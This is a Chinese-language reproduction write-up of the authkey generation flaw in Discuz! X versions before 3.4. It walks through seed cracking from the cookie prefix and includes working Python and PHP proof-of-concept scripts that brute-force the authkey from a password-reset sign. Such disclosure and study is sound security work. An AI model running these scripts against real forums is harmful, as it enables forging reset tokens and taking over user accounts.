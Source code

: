 ```yaml
---
title: "Discuz < 3.4 authkey 算法的安全性漏洞"
id: zhfly2871
---
```


# Discuz! X < 3.4 authkey 算法的安全性漏洞

## 一、漏洞简介

2017年8月1日，Discuz!发布了X3.4版本，此次更新中修复了authkey生成算法的安全性漏洞，通过authkey安全性漏洞，我们可以获得authkey。系统中逻辑大量使用authkey以及authcode算法，通过该漏洞可导致一系列安全问题：邮箱校验的hash参数被破解，导致任意用户绑定邮箱可被修改等…

## 二、漏洞影响

php>5.3+php-curl<=7.54

*   Discuz_X3.3_SC_GBK
*   Discuz_X3.3_SC_UTF8
*   Discuz_X3.3_TC_BIG5
*   Discuz_X3.3_TC_UTF8
*   Discuz_X3.2_SC_GBK
*   Discuz_X3.2_SC_UTF8
*   Discuz_X3.2_TC_BIG5
*   Discuz_X3.2_TC_UTF8
*   Discuz_X2.5_SC_GBK
*   Discuz_X2.5_SC_UTF8
*   Discuz_X2.5_TC_BIG5
*   Discuz_X2.5_TC_UTF8

## 三、复现过程

### 漏洞分析

在dz3.3/upload/install/index.php 346行

![image](../img/a86217d36ea59f111125a6d0efdba22d.png)

我们看到authkey是由多个参数的md5前6位加上random生成的10位产生的。

跟入random函数

![image](../img/e72f907fc1eed58ad37d53b2c996beb8.png)

当php版本大于4.2.0时，随机数种子不会改变

我们可以看到在生成authkey之后，使用random函数生成了4位cookie前缀

```
$_config['cookie']['cookiepre'] = random(4).'_'; 
```

那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符

![image](../img/49580ebb08af26c491d3394094c5f88a.png)

> 如上图所示，前四位是**sW7c**

然后通过脚本生成用于php_mt_seed的参数

> 这里需要修改第13行代码，替换你自己的cookie前四位

```
# coding=utf-8
w_len = 10
result = ""
str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
length = len(str_list)
for i in xrange(w_len):
	result+="0 "
	result+=str(length-1)
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "
sstr = "sW7c"
for i in sstr:
	result+=str(str_list.index(i))
	result+=" "
	result+=str(str_list.index(i))
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "
print result 
```

得到参数,使用php_mt_seed脚本

https://github.com/ianxtianxt/php-mt_rand

```
./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt 
```

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串

```
<?php
function random($length) {
	$hash = '';
	$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
	$max = strlen($chars) - 1;
	PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
	for($i = 0; $i < $length; $i++) {
		$hash .= $chars[mt_rand(0, $max)];
	}
	return $hash;
}
$fp = fopen('result.txt', 'rb');
$fp2 = fopen('result2.txt', 'wb');
while(!feof($fp)){
	$b = fgets($fp, 4096);
	if(preg_match("/seed = (\d)+/", $b, $matach)){
		$m = $matach[0];
	}else{
		continue;
	}
	// var_dump(substr($m,7));
	mt_srand(substr($m,7));
	fwrite($fp2, random(10)."\n");
}
fclose($fp);
fclose($fp2); 
```

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多16**6*200+,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php` 65行生成用于验证的sign值。

![image](../img/a7e6beb7eec864f9ac8a4dc614ac8471.png)

跟随make_getpws_sign函数进入`/source/function/function_member.php`

![image](../img/b844808ef037bf6d73dfd9a23b49757b.png)

然后进入dsign函数，配合authkey生成结果

![image](../img/51343ce3d61db8ca3179d09a5f0d2f6c.png)

这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

### poc

> http://www.0-sec.org/dz3.3/member?mod=getpasswd&uid=2&id=vnY6nW&sign=af3b937d0132a06b
> 
> 自行修改第7,8,13行代码

```
# coding=utf-8
import itertools
import hashlib
import time
def dsign(authkey):
	url = "http://127.0.0.1/dz3.3/"
	idstring = "vnY6nW"
	uid = 2
	uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
	url_md5 = hashlib.md5(uurl+authkey)
	return url_md5.hexdigest()[:16]
def main():
	sign = "af3b937d0132a06b"
	str_list = "0123456789abcdef"
	with open('result2.txt') as f:
		ranlist = [s[:-1] for s in f]
	s_list = sorted(set(ranlist), key=ranlist.index)
	r_list = itertools.product(str_list, repeat=6)
	print "[!] start running...."
	s_time = time.time()
	for j in r_list:
		for s in s_list:
			prefix = "".join(j)
			authkey = prefix + s
			# print dsign(authkey)
			if dsign(authkey) == sign:
				print "[*] found used time: " + str(time.time() - s_time)
				return "[*] authkey found: " + authkey
print main() 
```

![image](../img/bd70fadbb77fcb7fe81a0fd6a4e1de7f.png)

![image](../img/603f093bd68da775d387f8911f3c420c.png)

## 参考链接

> https://lorexxar.cn/2017/08/31/dz-authkey/#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85